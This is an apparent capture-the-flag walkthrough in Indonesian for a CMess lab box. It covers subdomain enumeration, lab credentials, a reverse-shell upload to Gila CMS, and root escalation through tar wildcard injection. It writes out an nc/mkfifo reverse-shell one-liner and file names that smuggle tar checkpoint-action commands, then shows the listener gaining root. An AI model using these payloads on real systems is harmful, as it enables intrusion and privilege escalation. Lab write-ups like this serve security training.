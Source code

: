 Enum subdomain dapet dev.blablaba 
- Dapet email pass buat login (andre@cmess.thm:KPFTN_f2yxe%)
- Upload rev shell di gila cms, revshell.
- UQfsdCB7aAP6 -> nemu di .password dari linpeas. 
- ssh andre@cmess.thm, pass: UQfsdCB7aAP6
- 	```
	echo "mkfifo /tmp/shxgqqn; nc 10.8.15.76 1234 0</tmp/shxgqqn | /bin/sh >/tmp/shxgqqn 2>&1; rm /tmp/shxgqqn" > shell.sh
	echo "" > "--checkpoint-action=exec=sh shell.sh"
	echo "" > --checkpoint=1
	tar cf archive.tar *
 	```

 	```
	wuvel@wuvel:~$ nc -lnvp 1234

	listening on [any] 1234 ...
	connect to [10.8.15.76] from (UNKNOWN) [10.10.34.217] 49888
	ls
	archive.tar
	--checkpoint=1
	--checkpoint-action=exec=sh shell.sh
	note
	shell.sh
	whoami
	root
	cat /root/root.txt
	thm{9f85b7fdeb2cf96985bf5761a93546a2}
 	```

